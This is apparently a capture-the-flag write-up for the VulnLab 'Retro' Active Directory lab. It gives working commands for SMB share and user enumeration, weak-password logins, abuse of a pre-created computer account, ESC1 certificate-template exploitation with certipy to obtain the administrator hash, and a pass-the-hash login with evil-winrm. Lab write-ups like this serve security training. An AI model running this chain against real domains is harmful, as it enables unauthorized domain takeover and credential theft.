

# Retro

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 593,3389,139,3268,636,49670,49669,389,445,135,49673,464,49664,49668,9389,53,49716 --min-rate=1000 10.10.95.73
```



now let’s try to enumerate the shares

```bash
nxc smb retro.vl -u 'guest' -p '' --shares --users
```


we found a share named Trainees so let’s connect to it 

```bash
smbclient \\\\retro.vl\\Trainees -U "retro.vl\guest"
```


As we see there is a file named Important so let’s download it and see it’s content

```bash
 get Important.txt
```


> Notice that we found a note saying that the students can’t remember strong passwords which mean that there password is weak
> 

Now let’s get the usernames

```bash
nxc smb retro.vl -u 'guest' -p '' --rid-brute 10000
```


Now let’s save the whole result in a file and extract the names

```bash
cat result.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```


and we got the users names

Now let’s test the user trainee with the password is the username and see if we can login

```bash
nxc smb retro.vl -u trainee -p trainee
```


> And we are authenticated!
> 

Now let’s enumerate the shares with the new user

```bash
nxc smb retro.vl -u trainee -p trainee --shares
```


Notice that we got access to the notes share so let’s go and connect to it

```bash
smbclient \\\\retro.vl\\Notes -U "retro.vl\trainee"
```


and we got access to a ToDo file so let’s download it and see it’s content

```bash
get ToDo.txt
```


> Notice that the note is referring that the environment have a pre created computer account so let’s try to abuse it
> 

Now let’s search for the pre created computer accounts and it’s passwords

```bash
poetry run pre2k auth -u trainee -p trainee -d retro.vl -dc-ip 10.10.95.73
```


> Amazing we found that there is a computer named BANKING$ with password banking
username: BANKING$
password: banking
> 

now let’s get bloodhound 

```bash
bloodhound-python -ns 10.10.95.73 -d retro.vl -u trainee -p trainee -c all --zip
```


Now open the bloodhound and let’s search for any interesting information 


and we didn’t find anything interesting

let’s search for the certificate templates in the enviroment

```bash
 certipy-ad find -u trainee@retro.vl -p trainee -dc-ip 10.10.95.73
```


Now let’s search for any ESC to abuse

```bash
cat 20250328163600_Certipy.txt | grep -i ESC -b40
```


notice that we found a ESC1 vulnerability in a template named RetroClients and we can abuse it using the Banking$ computer we have

 Now let’s change the password of the banking computer

```bash
impacket-changepasswd retro.vl/BANKING$:banking@10.10.95.73 -altuser trainee -altpas trainee
```


now let’s abuse the Vulnerable template

```bash
certipy-ad req -ca 'retro-DC-CA' -dc-ip '10.10.95.73' -u 'BANKING$' -p 'remo123$' -template 'RetroClients' -target 'dc.retro.vl' -upn 'administrator@retro.vl' -key-size 4096
```


now let’s retrive the administrator hash

```bash
certipy-ad auth -pfx administrator.pfx
```


So as we have the administrator hash let’s go and login using it.

```bash
evil-winrm -i retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389
```


and we did it we logged in as administrator 🥳 

No let’s go and get the root flag

```bash
cd C:\Users\Administrator\desktop
```


Amazing we solved the machine 😍


That’s it for the **Retro** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX